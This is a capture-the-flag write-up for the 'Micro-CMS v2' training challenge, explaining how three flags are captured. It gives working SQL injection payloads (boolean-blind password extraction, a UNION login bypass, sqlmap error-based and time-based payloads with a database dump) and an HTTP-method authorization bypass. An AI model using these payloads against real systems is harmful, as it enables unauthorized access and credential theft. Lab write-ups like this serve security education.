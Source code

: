 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")
```

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error.

These error messages reflect the TRUE and FALSE values of the entries and can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned TRUE, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned FALSE. Using this query, it is deduced that the length of the password is ```7```.

Now, each character in the password can similarly be found using the ```substring()``` function: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters against each character in the password (until character 7, the length found earlier) and seeing if the ```Invalid password``` error is shown to see if the character is correct, the password can be found. Write a script or use Burp Intruder to automate this. 

E.g. find the first character with ```' or IF(substring(password,1,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, the second character with ```' or IF(substring(password,2,1)='TEST_CHAR_HERE', TRUE, FALSE)-- ```, and so on until ```(substring(password,7,1)```, where ```TEST_CHAR_HERE``` is a single character checked for a match.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found as seen in the following paragraphs.)

The ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the names of databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

```
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=
```

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

```
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema

Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | shayna   | tanesha  |
+----+----------+----------+

Database: level2
Table: pages
[3 entries]
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
```

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

This emphasizes the fact that successful attacks emerge from unintended or unexpected input by the developer of the site. Here, a POST request is not expected and thus not protected against by the developer.

#### FLAG1 is captured.

All flags captured
=====
